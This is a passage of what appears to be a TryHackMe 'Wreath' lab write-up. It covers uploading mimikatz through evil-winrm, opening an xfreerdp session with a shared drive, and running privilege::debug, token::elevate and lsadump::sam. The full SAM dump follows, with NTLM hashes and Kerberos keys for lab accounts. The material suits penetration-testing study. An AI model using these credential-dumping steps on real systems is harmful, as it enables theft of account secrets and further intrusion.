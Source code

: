 - we can now login to the machine with evil win-rm
- upload mimikatz via evil win-rm `upload tools/Post-Exploitation/mimikatz.exe` (i couldnt get this to run properly on evil-winRM so logged in with xfreerdp to start mimikatz as administrator, also sharing the tools directory)
- ` xfreerdp /v:10.200.101.150 /u:0xskar /p:p@ssw0rd +clipboard /dynamic-resolution /drive:/home/oskar/Documents/TryHackMe/Wreath,share`
- then when minikatz is started as admin ``privilege::debug`` to check priv 20, then `token::elevate`, `log c:\windows\temp\mimikatz.log`, and dump passwords `lsadump::sam`


```
mimikatz # log c:\windows\temp\minikatz.log
Using 'c:\windows\temp\minikatz.log' for logfile : OK

mimikatz # lsadump::sam
Domain : GIT-SERV
SysKey : 0841f6354f4b96d21b99345d07b66571
Local SID : S-1-5-21-3335744492-1614955177-2693036043

SAMKey : f4a3c96f8149df966517ec3554632cf4

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 37db630168e5f82aafa8461e05c6bbd1

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 68b1608793104cca229de9f1dfb6fbae

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-1696O63F791Administrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8f7590c29ffc78998884823b1abbc05e6102a6e86a3ada9040e4f3dcb1a02955
      aes128_hmac       (4096) : 503dd1f25a0baa75791854a6cfbcd402
      des_cbc_md5       (4096) : e3915234101c6b75

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-1696O63F791Administrator
    Credentials
      des_cbc_md5       : e3915234101c6b75


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: c70854ba88fb4a9c56111facebdf3c36

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : e389f51da73551518c3c2096c0720233

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1d916df8ca449782c73dbaeaa060e0785364cf17c18c7ff6c739ceb1d7fdf899
```